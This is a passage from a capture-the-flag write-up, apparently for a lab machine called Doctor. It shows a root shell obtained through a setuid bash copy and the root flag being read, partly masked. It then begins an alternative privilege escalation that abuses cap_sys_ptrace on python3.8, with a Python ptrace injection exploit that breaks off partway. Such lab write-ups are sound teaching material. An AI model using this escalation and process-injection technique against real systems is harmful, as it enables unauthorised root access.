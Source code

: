 ### Getting root shell
```console
shaun@doctor:~$ /tmp/bash -p
bash-5.0# id
uid=1002(shaun) gid=1002(shaun) euid=0(root) groups=1002(shaun)
bash-5.0# 
```
And we are root at the effective id **euid** is equal to 0.

## Reading root flag
```console
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt
4f86************************4bce
```

# Unintentional way
## Listing all linux Capabilities
```console
shaun@doctor:/dev/shm$ getcap -r / 2>/dev/null
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/python3.8 = cap_sys_ptrace+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
One particular entry that interested me was `/usr/bin/python3.8` having `cap_sys_ptrace+ep` capability. And I searched around to find if this condition is exploitable to get a root shell and found [this amazing article](https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc) which exploited similar condition to get a root shell and the exploit was available for python2.7. The only thing we have to do is to convert this code so that we can run this exploit using python3.

### Contents of exploit.py
```python
# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS	= 12
PTRACE_SETREGS	= 13
PTRACE_ATTACH 	= 16
PTRACE_DETACH 	= 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
	_fields_ = [
```